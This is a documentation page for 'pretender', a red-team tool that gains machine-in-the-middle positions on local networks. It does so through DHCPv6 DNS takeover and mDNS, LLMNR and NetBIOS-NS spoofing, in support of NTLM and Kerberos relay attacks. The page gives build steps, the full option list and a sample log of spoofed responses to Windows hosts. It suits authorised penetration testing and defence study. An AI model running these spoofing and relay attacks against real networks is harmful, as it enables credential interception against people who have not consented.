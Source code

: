 ```yaml
---
title : "Pretender"
# pre : ' '
description : "Your MitM sidekick for relaying attacks featuring DHCPv6 DNS takeover as well as mDNS, LLMNR and NetBIOS-NS spoofing."
date : 2022-12-27T16:58:33+01:00
# hidden : true
# draft : true
weight : 340
# tags : ['']
---
```


---

Your MitM sidekick for relaying attacks featuring DHCPv6 DNS takeover as well as mDNS, LLMNR and NetBIOS-NS spoofing.

`pretender` is a tool developed by RedTeam Pentesting to obtain machine-in-the-middle positions via spoofed local name resolution and DHCPv6 DNS takeover attacks. `pretender` primarily targets Windows hosts, as it is intended to be used for relaying attacks but can be deployed on Linux, Windows and all other platforms Go supports. Name resolution queries can be answered with arbitrary IPs for situations where the relaying tool runs on a different host than `pretender`. It is designed to work with tools such as [Impacket's](https://github.com/SecureAuthCorp/impacket) `ntlmrelayx.py` and [krbrelayx](https://github.com/dirkjanm/krbrelayx) that handle the incoming connections for relaying attacks or hash dumping.

Read our [blog post](https://blog.redteam-pentesting.de/2022/introducing-pretender/) for more information about DHCPv6 DNS takeover, local name resolution spoofing and relay attacks.

## Installation

```plain
git clone https://github.com/RedTeamPentesting/pretender
cd pretender
go build
```

## Usage

```plain
./pretender [OPTIONS]
```

## Flags

```plain
  -i, --interface string           Interface to bind on, supports auto-detection by IPv4 or IPv6
  -4, --ip4 ip                     Relay IPv4 address with which queries are answered, supports auto-detection by interface or IPv6
  -6, --ip6 ip                     Relay IPv6 address with which queries are answered, supports auto-detection by interface or IPv4
      --soa-hostname string        Hostname for the SOA record (useful for Kerberos relaying)
      --no-dhcp-dns                Disable DHCPv6 DNS takeover attack (DHCPv6 and DNS)
      --no-dhcp                    Disable DHCPv6 spoofing
      --no-dns                     Disable DNS spoofing
      --no-ra                      Disable router advertisements
      --no-mdns                    Disable mDNS spoofing
      --no-netbios                 Disable NetBIOS-NS spoofing
      --no-llmnr                   Disable LLMNR spoofing
      --no-lnr                     Disable local name resolution spoofing (mDNS, LLMNR, NetBIOS-NS)
      --no-ipv6-lnr                Disable mDNS and LLMNR via IPv6 (useful with allowlist or blocklist)
      --spoof strings              Only spoof these domains, if domain starts with a dot, all subdomains with match (allowlist)
      --dont-spoof strings         Do not spoof these domains, if domain starts with a dot, all subdomains with match (blocklist)
      --spoof-for hosts            Only spoof DHCPv6 and name resolution for these hosts (allowlist of IPs or hostnames)
      --dont-spoof-for hosts       Do not spoof DHCPv6 and name resolution for these hosts (blocklist of IPs or hostnames)
      --spoof-types types          Only spoof these query types (A, AAA, ANY, SOA, all types are spoofed if empty)
      --ignore-nofqdn              Ignore DHCPv6 messages where the client did not include its FQDN (useful with allowlist or blocklists)
      --dry                        Do not spoof name resolution at all, only log queries
  -t, --ttl duration               Time to live for name resolution responses (default 1m0s)
      --lease-lifetime duration    DHCPv6 IP lease lifetime (default 1m0s)
      --router-lifetime duration   Router lifetime specified in router advertisements (default 3m0s)
      --ra-period duration         Time period between router advertisements (default 3m0s)
      --stop-after duration        Stop running after this duration
  -v, --verbose                    Print debug information
      --no-color                   Disables output styling
      --no-timestamps              Disables timestamps in the output
  -l, --log file                   Log file name
      --version                    Print version information
      --no-host-info               Do not gather host information
      --hide-ignored               Do not log ignored queries
      --redirect-stderr            Redirect stderr to stdout
      --interfaces                 List interfaces and their addresses (the other options have no effect, except for --no-color)
```

## Examples

```plain
$ sudo ./pretender -i eth1 --no-ra
Pretender by RedTeam Pentesting built from git commit 69d85ac239
Listening on interface: eth1
IPv4 relayed to: 10.10.20.50
IPv6 relayed to: fe80::e1d8:cf1d:5df3:a7f5

16:50:19 [DHCPv6] listening via UDP on [ff02::1:2%eth1]:547
16:50:19 [mDNS] listening via UDP on [ff02::fb%eth1]:5353
16:50:19 [DNS] listening via TCP on [fe80::e1d8:cf1d:5df3:a7f5%eth1]:53
16:50:19 [mDNS] listening via UDP on 224.0.0.251:5353
16:50:19 [DNS] listening via UDP on [fe80::e1d8:cf1d:5df3:a7f5%eth1]:53
16:50:19 [LLMNR] listening via UDP on [ff02::1:3%eth1]:5355
16:50:19 [NetBIOS] listening via UDP on 10.10.20.255:137
16:50:19 [LLMNR] listening via UDP on 224.0.0.252:5355
16:50:20 [DHCPv6] responding to SOLICIT from fe80::7270:8089:988d:b114 (cl01.offsec.nl) by assigning IPv6 "fe80::8000:800:277e:5926"
16:50:20 [DHCPv6] responding to REQUEST from fe80::7270:8089:988d:b114 (cl01.offsec.nl) by assigning DNS server and IPv6 "fe80::8000:800:277e:5926"
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [mDNS] "CL01.local" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by 10.10.20.61 (cl01.offsec.nl)
16:50:21 [LLMNR] "CL01" (ANY) queried by fe80::7270:8089:988d:b114 (cl01.offsec.nl, 10.10.20.61)
16:50:21 [DNS] "v10.events.data.microsoft.com" (A) queried by fe80::8000:800:277e:5926 (10.10.20.61, PCSSystemtec)
```

## URL list

- [Github.com - Pretender](https://github.com/RedTeamPentesting/pretender)
